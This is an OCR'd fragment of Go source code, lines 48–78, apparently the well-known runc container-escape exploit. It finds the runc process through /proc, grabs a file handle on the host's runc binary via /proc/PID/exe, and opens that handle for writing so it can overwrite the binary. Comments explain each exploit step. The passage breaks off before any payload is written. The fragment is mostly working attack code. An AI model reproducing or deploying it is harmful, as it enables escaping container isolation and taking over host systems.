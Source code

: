 ```

48.return

49.}

50.for _, f := range pids {

51.fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")

52.fstring := string(fbytes)

53.if strings.Contains(fstring, "runc") {

54.fmt.Println("[+] Found the PID:", f.Name())

55.found, err = strconv.Atoi(f.Name())

56.if err != nil {

57.fmt.Println(err)

58.return

59.     }

60.    }

61.   }

62.  }

63.

64.// We will use the pid to get a file handle for runc on the host.

65.var handleFd = -1

66.for handleFd == -1 {

67.// Note, you do not need to use the O_PATH flag for the exploit to work.

68.handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)

69.if int(handle.Fd()) &gt; 0 {

70.handleFd = int(handle.Fd())

71.   }

72.  }

73.fmt.Println("[+] Successfully got the file handle")

74.

75.// Now that we have the file handle, lets write to the runc binary and overwrite it

76.// It will maintain it's executable flag

77.for {

78.writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
```
